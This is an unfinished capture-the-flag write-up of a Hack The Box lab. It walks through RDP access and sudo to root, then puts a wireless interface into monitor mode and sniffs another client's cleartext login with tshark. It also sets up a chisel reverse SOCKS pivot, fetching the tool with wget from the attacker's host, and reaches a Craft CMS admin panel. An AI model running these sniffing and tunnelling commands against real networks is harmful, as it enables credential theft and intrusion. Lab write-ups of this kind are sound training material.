







| Field      | Details                                                        |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/Layover)       |
| Difficulty | Medium                                                             |
| OS         | Linux                                                              |
| Date       | October 7, 2026                                                   |

**Target:** 10.129.157.69 (airside-ws01)
**Author:** Faridd

> **Note:** This writeup is in progress — it covers everything completed so far, up to enumerating the internal portal's backend versions. No flags have been captured yet.

---

## 1. Reconnaissance

### 1.1 — Port Scanning

```bash
nmap -A 10.129.157.69
```

```
22/tcp   open  ssh           OpenSSH 9.6p1 Ubuntu 3ubuntu13.19
3389/tcp open  ms-wbt-server Microsoft Terminal Service
Network Distance: 2 hops
```

A mixed Linux/Windows fingerprint (OpenSSH banner, but an RDP service and an OS guess mentioning MikroTik RouterOS) suggests this isn't a plain single-OS host — likely a Linux workstation exposing RDP, possibly behind or alongside networking gear. The "2 hops" distance is also worth remembering: it hints this box may not be the only system in play.

### 1.2 — Testing the Provided Credentials

The lab description provided a credential pair. SSH rejected it, but RDP accepted it:

```bash
xfreerdp /v:10.129.157.69 /u:'contractor' /p:'Contractor2026!' /cert:ignore /dynamic-resolution
```



---

## 2. Initial Access — Checking for Flags and Privileges

### 2.1 — Sudo Rights

```bash
sudo -l
```

```
User contractor may run the following commands on airside-ws01:
    (ALL : ALL) ALL
```

Full sudo rights — `sudo su` dropped straight into a root shell. However:

```bash
find / -type f -name "user.txt" 2>/dev/null
find / -type f -name "root.txt" 2>/dev/null
```

Neither flag exists on this host. This is a strong signal that `airside-ws01` isn't the actual scoring target by itself — the real objective lives elsewhere (consistent with the "2 hops" distance from the nmap scan), and this machine is a pivot point rather than the final box.

---

## 3. Pivoting via Wireless — Capturing Credentials Off the Air

### 3.1 — Spotting the Extra Interfaces

Since the box is themed around an airport/"airside" environment, unusual network interfaces were checked next:

```bash
ifconfig
```



Two wireless interfaces (`wlan2`, `wlan3`) are present alongside the normal `eth0` — not something a typical headless Linux host would have, and a clear pointer toward a Wi-Fi-based attack path.

### 3.2 — Connecting to the Visible Network

The desktop's own Wi-Fi menu was used to join the broadcasted network, **"HTB International WiFi"**, using the first wireless interface normally (via the GUI network manager).

### 3.3 — Putting the Second Interface into Monitor Mode

The second wireless interface (`wlan3`) was freed from NetworkManager and switched to monitor mode so it could passively capture all traffic on the same channel, rather than just traffic addressed to this host:

```bash
sudo nmcli device set wlan3 managed no
sudo ip link set wlan3 down
sudo iw dev wlan3 set type monitor
sudo ip link set wlan3 up
sudo iw dev wlan3 set channel 6
```

`airodump-ng`-style scanning confirmed the target network and its channel:





### 3.4 — Capturing Traffic

```bash
sudo tshark -i wlan3 -w /tmp/wifi.pcap
```

Left running for a few minutes to passively collect whatever other clients on the network were sending.

### 3.5 — Extracting Cleartext Credentials from the Capture

HTTP POST requests are the obvious place to look for submitted login forms in cleartext Wi-Fi traffic:

```bash
sudo tshark -r /tmp/wifi.pcap -Y 'http.request.method == "POST"' -T fields -e ip.src -e http.host -e http.request.uri -e urlencoded-form.key -e urlencoded-form.value
```



This captured a login submitted by another client on the network:

```
10.13.37.132   portal.international.htb   /miles/login.php   username=jenny   password=Fl1ghtDeck2026!
```

A second user's credentials (`jenny : Fl1ghtDeck2026!`) recovered entirely passively, just by being on the same wireless network.

---

## 4. Finding Where the Credentials Apply

### 4.1 — Locating the Target via the Browser

With a username/password in hand but no clear target yet, the desktop's own browser was checked — it had the airport's captive/landing page already open:



The page explicitly advertises a staff portal:

```
HTB Airways Miles employee portal: http://portal.international.htb/miles/
```

This matches the `Host` header (`portal.international.htb`) and URI (`/miles/login.php`) seen in the captured traffic — confirming `jenny`'s credentials are meant for this portal.

### 4.2 — Pivoting Traffic to Reach the Internal Domain

`portal.international.htb` isn't resolvable or reachable directly from Kali — only from inside the target's network. A SOCKS pivot was set up through the already-compromised `contractor` session to route Kali's browser traffic through it:

```bash
# On Kali — start a reverse chisel server
./chisel server --reverse -p 9000

# On the target (airside-ws01) — connect back and expose a SOCKS proxy
wget http://10.10.14.54/chisel -O chisel
chmod +x chisel
./chisel client 10.10.14.54:9000 R:1080:socks
```

Firefox on Kali was then pointed at the new SOCKS proxy (`127.0.0.1:1080`, with proxy DNS enabled so hostnames like `portal.international.htb` resolve through the tunnel too) via `proxychains firefox` and the browser's network settings.

### 4.3 — Logging Into the Portal

With the tunnel up, `http://portal.international.htb/` was reachable directly from Kali. The page source didn't reveal anything useful, and Wappalyzer couldn't pin down the CMS version automatically — it only flagged **Craft CMS** without a version number. Rather than guess, the admin login was tried next:

```
jenny : Fl1ghtDeck2026!
```

This succeeded, confirming the captured Wi-Fi credentials are valid for the admin panel itself, not just a lower-privileged portal account.

### 4.4 — Identifying Exact Software Versions

Inside the admin panel, Craft CMS's own **System Report** utility page discloses its full backend stack — exactly the version information that was hidden from outside fingerprinting tools:



```
PHP version:              8.3.6
OS version:                Linux 6.8.0-142-generic
Database driver & version: MariaDB 10.11.14
Craft edition & version:   Craft Solo 5.9.8
Yii version:                2.0.54
Twig version:               v3.21.1
Guzzle version:             7.14.2
```

With **Craft CMS 5.9.8** confirmed precisely, the next step is checking this exact version for known authenticated RCE or plugin-based vulnerabilities — this is where the work currently stands.

---

## 5. Progress So Far

```
RDP as contractor (provided creds) --> full sudo, but no flags on this host
  --> extra wlan interfaces found --> airport Wi-Fi is the real path
  --> wlan3 to monitor mode --> passive capture on "HTB International WiFi"
  --> tshark extracts jenny's cleartext POST credentials
  --> browser captive portal reveals portal.international.htb (staff portal)
  --> chisel SOCKS pivot through contractor session --> reach internal domain
  --> jenny's creds work on the Craft CMS admin panel
  --> System Report discloses exact stack: Craft CMS 5.9.8, PHP 8.3.6, MariaDB 10.11.14
  --> [NEXT] look for a version-specific exploit against Craft CMS 5.9.8
```
